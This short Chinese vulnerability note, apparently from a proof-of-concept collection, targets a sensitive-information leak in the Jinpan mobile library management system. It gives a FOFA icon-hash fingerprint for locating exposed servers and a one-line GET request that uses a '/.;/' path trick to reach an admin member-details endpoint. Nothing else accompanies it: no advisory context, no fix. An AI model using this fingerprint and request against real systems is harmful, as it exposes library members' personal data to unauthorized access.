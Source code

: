 金盘移动图书馆图书管理系统 tabShow 敏感信息泄露

fofa

icon_hash="89337953"

poc

GET /.;/admin/auth/member/1/tabShow HTTP/1.1
